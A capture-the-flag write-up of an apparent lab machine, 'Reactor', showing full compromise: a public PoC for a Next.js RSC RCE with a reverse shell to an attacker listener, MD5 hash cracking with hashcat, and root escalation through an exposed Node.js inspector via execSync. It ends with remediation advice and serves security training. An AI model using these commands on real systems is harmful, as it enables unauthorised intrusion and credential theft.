


| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| **OS**         | Linux                                              |
| **Difficulty** | Easy                                               |
| **Release**    | 2026-05-23                                         |
| **State**      | Active                                             |
| **IP**         | 10.129.6.203                                       |
| **Techniques** | Next.js RCE, hash cracking, Node.js debugger abuse |
| **Tags**       | #web #privesc #linux                               |

---
## Summary

Reactor is an easy Linux machine running a reactor monitoring system built on Next.js 15.0.3. This version of Next.js is vulnerable to CVE-2025-55182, a critical pre-authentication remote code execution vulnerability in the React Server Components Flight protocol. Exploiting it lands a shell as the user `node`. A SQLite database in the application directory exposes MD5-hashed credentials for two users. The hash of the user `engineer` can be cracked, granting SSH access to the host. Privilege escalation is achieved with the abuse of the Node.js Inspector (debugger) running as root on the loopback interface. Since the inspector gives direct access to the Node.js runtime, an attacker can invoke `child_process.execSync` within the root process to read arbitrary files.

---
## Enumeration

```
echo '10.129.6.203 reactor.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sC -sV reactor.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-27 04:21 EDT
Nmap scan report for reactor.htb (10.129.6.203)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  http    Next.js
|_http-title: ReactorWatch — Core Monitoring System
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.92 seconds
```

Port 3000 is the default development port for Node.js-based frameworks. The response headers confirm the application is powered by Next.js.

### Service Enumeration

The web application on port 3000 is a custom reactor monitoring dashboard .

**Vulnerable Next.js version 15.0.3:**



---
## Foothold

### CVE-2025-55182

CVE-2025-55182 is a critical (CVSS 10.0) pre-authentication remote code execution vulnerability affecting React Server Components (RSC) in Next.js versions 15.0.0 through 15.0.4 (and React 19.x). The root cause lies in the **React Server Components Flight protocol**, a binary serialisation format used to stream component state between server and client.

The attack can be broken down into four stages:

1. **Fake Chunk Injection.** The attacker sends a crafted Flight payload containing an object that mimics the internal `Chunk` data structure used by React's runtime. This fake object includes a custom `then` method, making it appear to the runtime as a pending Promise.
    
2. **Promise Handler Hijacking.** React's deserialisation logic attempts to resolve what it believes is a pending chunk by calling `.then()` on it. Because the chunk is attacker-controlled, this invokes the attacker's handler instead of the legitimate resolver.
    
3. **State Manipulation.** Through the hijacked handler, the attacker injects a malicious object reference into the server's internal state. React's duck-typing means the runtime never validates the object's true origin.
    
4. **Code Execution via Blob Handler.** The malicious reference causes the server to call `process.mainModule.require('child_process')`, giving the attacker full access to Node.js's built-in modules and enabling arbitrary OS command execution.
    

Because the exploit targets the deserialisation of the Flight payload which is processed before any authentication layer is evaluated no credentials are required.

**Affected versions:** Next.js 15.0.0–15.0.4, React 19.0.0–19.2.0.

### Exploitation

PoC used: [github.com/p3ta00/react2shell-poc](https://github.com/p3ta00/react2shell-poc)

```shell
python3 react2shell-poc.py -t http://reactor.htb:3000 --revshell --lhost 10.10.15.152 --lport 1111

[*] Checking target: http://reactor.htb:3000
[+] Target is running Next.js
[+] Next.js application detected
[*] Trying shell payload 1/4...
[*] Sending malicious Flight payload...
```

```
nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.15.152] from (UNKNOWN) [10.129.6.203] 53934
bash: cannot set terminal process group (1328): Inappropriate ioctl for device
bash: no job control in this shell
node@reactor:/opt/reactor-app$
```

A shell is obtained as `node`. 

---
## Lateral Movement

A SQLite database is present in the application directory and is readable by the `node` user:

```
node@reactor:/opt/reactor-app$ sqlite3 reactor.db .dump
```

```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT NOT NULL,
    password_hash TEXT NOT NULL,
    role TEXT NOT NULL,
    email TEXT
);
INSERT INTO users VALUES(1,'admin','a203b22191d744a4e70ada5c101b17b8','administrator','admin@reactor.htb');
INSERT INTO users VALUES(2,'engineer','39d97110eafe2a9a68639812cd271e8e','operator','engineer@reactor.htb');
```

The hashes are confirmed to be using a MD5 hashing algorithm:



### Hash Cracking

The hash of `engineer` can be cracked:

```
hashcat -m 0 39d97110eafe2a9a68639812cd271e8e /usr/share/wordlists/rockyou.txt --show
39d97110eafe2a9a68639812cd271e8e:reactor1
```

Credentials recovered: `engineer:reactor1`

## User Flag

```
ssh engineer@reactor.htb
# password: reactor1

engineer@reactor:~$ cat user.txt
d9b9a6da48a41f9eb061b4**********
```

---
## Privilege Escalation

### Enumeration

Process enumeration reveals an internal Node.js process running as root with the `--inspect` flag:

```
engineer@reactor:~$ ps aux | grep node
root  1333  ...  /usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

Port enumeration confirms the debugger is bound to the loopback interface:

```
engineer@reactor:~$ ss -tlpn
LISTEN  0  511  127.0.0.1:9229  0.0.0.0:*
```

### Node.js Inspector

The `--inspect` flag activates the **Node.js Inspector protocol**, a debugging interface based on the Chrome DevTools Protocol. When enabled, the Node.js process opens a WebSocket server on the specified address (default `127.0.0.1:9229`) and accepts connections from debugging clients such as Chrome DevTools or `node inspect`. The inspector grants full access to the active JavaScript environment. Using the `exec()` command any connected client can execute arbitrary code directly inside the running process.

Since the inspected process runs as root, any code evaluated through the inspector executes with full root privileges. This is by design, the inspector is intended for development environments but becomes a critical privilege escalation vector when exposed on a production system accessible to non-root users. Node.js itself documents this risk explicitly, warning that exposing the inspector on a non-loopback address is equivalent to granting root access.

### Exploitation

Source: [HackTricks — Node.js/Electron Debugger Abuse](https://angelica.gitbook.io/hacktricks/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)

Connecting to the debugger using the `node inspect` client:

```
engineer@reactor:~$ node inspect 127.0.0.1:9229 /opt/uptime-monitor/worker.js
connecting to 127.0.0.1:9229 ... ok
```

Attempting with `exec()`:

```javascript
debug> exec("process.mainModule.require('child_process').exec('cat /root/root.txt')")
{ _events: Object,
  _eventsCount: 2,
  _maxListeners: 'undefined',
  _closesNeeded: 3,
  _closesGot: 0,
  ... }
```

`exec()` is asynchronous, because it returns the child process object immediately rather than the command output. Switching to `execSync()`:

```javascript
debug> exec("process.mainModule.require('child_process').execSync('cat /root/root.txt')")
Uint8Array(33)
```

### Root flag

The output is returned as a raw `Buffer`. Appending `.toString()` converts it to a readable string:

```javascript
debug> exec("process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()")
'cf988dc6451639c5694ef1b**********\n'
```

---
## Remediation

- **CVE-2025-55182:** Upgrade Next.js to version 15.0.5 or later, and React to a patched release. 
- **Credentials storage in the app directory:** The SQLite database containing password hashes should not reside in a web-accessible or world-readable directory. Restrict file permissions so that only the application service account can read it.
- **MD5 password hashing:** MD5 is cryptographically broken and unsuitable for password storage. Replace it with a modern, slow hashing algorithm such as bcrypt or Argon2id.
- **Node.js Inspector exposure:** Never start a production Node.js process with `--inspect` or `--inspect-brk`. If debugging is required in a controlled environment, bind to a Unix socket rather than a TCP port, restrict access via filesystem permissions, and remove the flag entirely before deployment.

---
## References

- [CVE-2025-55182 — React2Shell PoC](https://github.com/p3ta00/react2shell-poc)
- [Node.js Inspector Debugging Guide](https://nodejs.org/en/learn/getting-started/debugging)
- [HackTricks — Node.js/Electron Debugger Abuse](https://angelica.gitbook.io/hacktricks/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)

